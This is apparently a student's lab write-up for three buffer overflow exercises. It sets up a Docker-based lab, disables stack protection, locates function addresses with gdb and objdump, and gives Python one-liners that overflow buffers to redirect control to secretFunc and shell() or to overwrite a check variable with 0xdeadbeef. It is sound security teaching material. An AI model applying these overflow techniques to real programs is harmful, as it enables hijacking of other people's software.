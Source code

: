 # Lab#1 Conduct buffer overflow attack .
## Prepared the eviroment .
  1. Open your Docker Destop
  2. Choice the folder contain file lab and open Terminal
     
      ```bash
      git clone https://github.com/quang-ute/myprojects
      ```
      and after that:
     ```bash
     cd myprojects
     ```
  3. Build the image `img4lab` by Docker
     ```bash
     docker build -t img4lab .
     ```
     and run docker container
     ```bash
      docker run -it --privileged -v $HOME/seclabs:/home/seed/seed@ img4lab
     ```
  4. On `seed@...`
     ```
     cd seclabs
     ```
     create a new direction named `bof`
     ```bash
     mkdir bof
     ```
     and after that:
     ```bash
     cd bof
     ```
     and Open you VSCode -> Connect to WSL -> Open folder `bof`  and catch file bof1, bof2, bof3 from `https://github.com/quang-ute/Security-labs/tree/main/Software/buffer-overflow`
## Attack ( BOF 1 )
![image](https://github.com/user-attachments/assets/3ca0dd01-c5b1-4abd-adcb-757f64f60c0d)

If an attacker supplies more input than the buffer array[200] can handle, they could potentially control the flow of the program and execute unintended code.

1. On `/seclabs/bof$`
   ```bash
   gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
   and load bof1.out in gdb
  
    ```bash
    gdb bof1.out
    ```
  2. Use the disassemble command to display the assembly code
     ```bash
     disas secretFunc
     ```
     ![image](https://github.com/user-attachments/assets/7ee1e5e0-441a-4a39-9a40-bb98f3545acc)
  
  The secretFunc() memory region is `0x0804846b`
  3. Input 'a'*204 followed by `0x0804846b`
     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
     ```
       ![image](https://github.com/user-attachments/assets/a93df09c-aaec-4d0d-8bb4-f96f3cb402b4)
     To remove the Missing arguments line, add any value at the end of your command

     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out 120
     ```

     
     ![image](https://github.com/user-attachments/assets/3074ef1f-1809-45df-b5aa-61ef31dffcff)

  ## Attack ( BOF 2 )
  
  ![image](https://github.com/user-attachments/assets/fddde23e-e6fd-4c80-bddd-f2250f004701)

> Since buf is only 40 characters in size, but fgets allows input of up to 45 characters, this can overwrite the memory after the buf array, including the check variable. If you enter enough data to overwrite the value of check, you can change it to 0xdeadbeef, leading to the condition being satisfied and printing the winning message.

1.  On `/seclabs/bof$`
2.  
   ```bash
   gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
  
2. 

```bash
 echo $(python -c "print('a'*40)" + '\x01\x02\x03\x04' ) | ./bof2.out
```

Terminal will be return  `You are on the right way!`
![image](https://github.com/user-attachments/assets/83deaff6-f75f-46f9-8fdf-8dce2ad89d7a)


If you want to print `Yeah! You win!`

echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde' )") | ./bof2.out

![image](https://github.com/user-attachments/assets/57848a21-9021-4c9c-994a-555c01043102)


 ## Attack ( BOF 3 )    

![image](https://github.com/user-attachments/assets/f4404c2e-5f35-4527-b695-be72686df0ba)


 
The first of all, you have to run 
```bash
objdump -d bof3.out | grep shell
```


 ![image](https://github.com/user-attachments/assets/2298c0b9-23b6-4bd3-b4fb-31c653e51de7)

you can see `0804845b`  <shell>  and after that:

```bash
echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
```
![image](https://github.com/user-attachments/assets/8425fba6-cc53-4a19-8ddf-f43020f89baa)

Buffer overflow occurs when too much data is entered into the buf. Since fgets allows up to 133 characters to be input (more than the size of buf), the excess data can overwrite the function pointer func. If an attacker knows the address of the shell() function and overwrites the func pointer with this address, the shell() function will be called instead of sup().


